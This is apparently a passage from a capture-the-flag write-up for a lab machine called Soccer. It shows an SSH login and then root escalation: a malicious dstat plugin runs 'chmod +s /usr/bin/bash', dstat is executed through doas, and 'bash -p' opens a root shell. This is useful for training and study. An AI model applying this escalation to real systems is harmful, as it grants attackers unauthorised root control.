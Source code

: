```console
└─$ ssh player@soccer.htb              
The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Last login: Fri Dec 23 20:54:10 2022 from 10.10.14.111
-bash-5.0$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```
```console
-bash-5.0$ cat user.txt
24cf****************************
```
Running linpeas does reveal dstat which is almost the same as sudo.

```console
player@soccer:~$ ls -la /usr/bin/dstat 
-rwxr-xr-x 1 root root 97762 Aug  4  2019 /usr/bin/dstat
```
```console
player@soccer:~$ cat dstat_exploit.py 
import os

os.system('chmod +s /usr/bin/bash')
```

```console
player@soccer:~$ cp dstat_exploit.py /usr/local/share/dstat/
player@soccer:~$ ls -la /usr/local/share/dstat/
total 12
drwxrwx--- 2 root   player 4096 Dec 23 21:39 .
drwxr-xr-x 6 root   root   4096 Nov 17 09:16 ..
-rw-rw-r-- 1 player player   47 Dec 23 21:39 dstat_exploit.py
player@soccer:~$ dstat --list | grep exploit
        exploit
```

```console
player@soccer:~$ doas -u root /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
```

```console
player@soccer:~$ bash -p
bash-5.0# cat /root/root.txt
ac6b****************************
```

